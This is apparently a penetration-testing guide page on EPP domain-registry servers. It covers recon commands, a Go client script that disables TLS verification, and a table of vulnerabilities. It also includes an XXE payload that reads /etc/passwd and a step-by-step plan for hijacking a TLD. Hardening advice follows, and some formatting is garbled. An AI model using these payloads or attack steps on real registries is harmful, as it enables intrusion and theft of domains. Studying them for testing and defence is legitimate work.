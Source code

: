 # 700 - Pentesting EPP


## Basic Information

The Extensible Provisioning Protocol (EPP) is a network protocol used for the **management of domain names and other internet resources** by domain name registries and registrars. It enables the automation of domain name registration, renewal, transfer, and deletion processes, ensuring a standardized and secure communication framework between different entities in the domain name system (DNS). EPP is designed to be flexible and extensible, allowing for the addition of new features and commands as the needs of the internet infrastructure evolve.

Basically, it's one of the protocols a **TLD registrar is going to be offering to domain registrars** to register new domains in the TLD.

### Pentest

[[https://hackcompute.com/hacking-epp-servers/) you can see how some security researches found several **implementation of this protocol** were vulnerable to XXE (XML External Entity|**In this very interesting article**]] as this protocol uses XML to communicate, which would have allowed attackers to takeover tens of different TLDs.

---

## Enumeration & Recon

EPP servers almost always listen on TCP `700/tcp` over TLS.  A typical deployment also enforces **mutual-TLS (mTLS)** so the client must present a valid certificate issued by the registry CA.  Nevertheless, many private test or pre-production deployments forget that control:

```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
  -servername epp.test 2>/dev/null | head
```
```
If the server does not terminate the connection after the TLS handshake you can attempt to send an unauthenticated `<hello/>` message:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  
</epp>
```
```
### Open-source clients useful for testing

* **epp-client (Go)** – actively maintained, supports TCP/TLS and EPP-over-HTTPS (RFC 8730):  
  `go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – minimal client library that can easily be instrumented for fuzzing or nuclei-style workflows.
* **afq984/php-epp-client** – PHP implementation used by many small registrars; a convenient target for code-review.

Example minimal login+check script with Go epp-client:

```go
package main
import (
    "github.com/domainr/epp"
    "crypto/tls"
)

func main() {
    cfg := &tls.Config{InsecureSkipVerify: true}
    c, _ := epp.DialTLS("epp.test:700", cfg)
    c.Login("CLIENT_ID", "PASSWORD", nil)
    resp, _ := c.DomainCheck("example","com")
    println(resp)
}
```
```
---

## Common Weaknesses & 2023-2025 Vulnerabilities

| Year | Component | CWE | Impact |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Remote file read & SSRF via crafted `<epp>` payload (patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Insufficient TLS cert validation | Bypass of mTLS allowed unauthorized registrar login |
| 2025 | Proprietary registrar panel | CWE-306 Missing Authentication for Critical Function | Domain transfer approval endpoint exposed over EPP-HTTP bridge |

### XXE / SSRF payload (works against many Java/Spring implementations)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  <command>
    <check>
      <domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
        \&xxe
      </domain:check>
    </check>
  </command>
</epp>
```
```
When the parser is mis-configured (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`) the file content is returned inside the `<resData>` structure.

### Other typical findings

1. **Weak credential policy** – EPP login passphrases shorter than 8 chars; brute-force is often feasible because the spec only RECOMMENDS (not requires) rate-limiting.
2. **Missing `registryLock` / `serverUpdateProhibited` status** – once authenticated, attackers can immediately update NS records and steal traffic.
3. **Unsigned poll messages** – some implementations still do not sign poll Q&A messages, enabling spoofing/phishing of registrar operators.

---

## Attack Path: From Zero to TLD Hijack

1. Discover an EPP endpoint (often hidden behind a generic host like `ot&e.<tld>.nic.<cc>`).
2. Abuse one of the weaknesses above to gain registrar-level credentials (XXE → SSRF to IMDSv1, credential exfil, or TLS-bypass).
3. Issue `<update>` requests to change the domain’s `hostObj` records to attacker-controlled name servers.
4. (Optional) Submit a `<transfer>` to move the domain to an attacker-controlled registrar – many registries still rely on a **single auth-code**.
5. Profit: full control of DNS zone, ability to request TLS certificates via ACME.

---

## Defensive Measures & Hardening

* Enforce **mTLS with per-registrar client certificates** and pin the registry CA.
* Set `parserFeature secure-processing=true` or equivalent to kill XXE.
* Run **continuous fuzzing** of the XML parser (e.g., with `go-fuzz` or `jazzer` for Java).
* Deploy **Registry Lock / server*Prohibited** statuses for high-value domains.
* Monitor `poll` queue for suspicious `<transfer>` or `<update>` commands and alert in real-time.
* ICANN 2024 DNS-Abuse contract amendments require registries to prove rate-limit & auth controls – leverage them.


## References

* ICANN Security and Stability Advisory Committee (SSAC). "SAC118: Consequences of Registry Operator Failure to Implement EPP Security Controls". 2024.
* HackCompute – "Hacking EPP servers: abusing XXE to hijack TLDs" (2023).


